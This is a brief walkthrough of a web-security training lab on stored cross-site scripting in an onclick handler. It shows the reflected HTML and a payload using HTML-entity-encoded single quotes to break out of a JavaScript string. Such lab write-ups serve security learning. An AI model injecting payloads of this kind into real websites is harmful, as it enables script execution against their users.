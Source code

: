 Title: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
Level: PRACTITIONER
Desc:  This lab contains a stored cross-site scripting vulnerability in the comment functionality.
To solve this lab, submit a comment that calls the alert function when the comment author name is clicked. 

# Walkthrough:


<img width="634" height="471" alt="image" src="https://github.com/user-attachments/assets/8bb17987-9422-40fb-951b-bf763c583df5" />
string provided by website field is reflected on : 
`<a id="author" href="https://website.com" onclick="var tracker={track(){}};tracker.track('https://website.com');">`

payload to make this work: `http://foo?&apos;-alert(1)-&apos;` (add to website and url encode in burp)


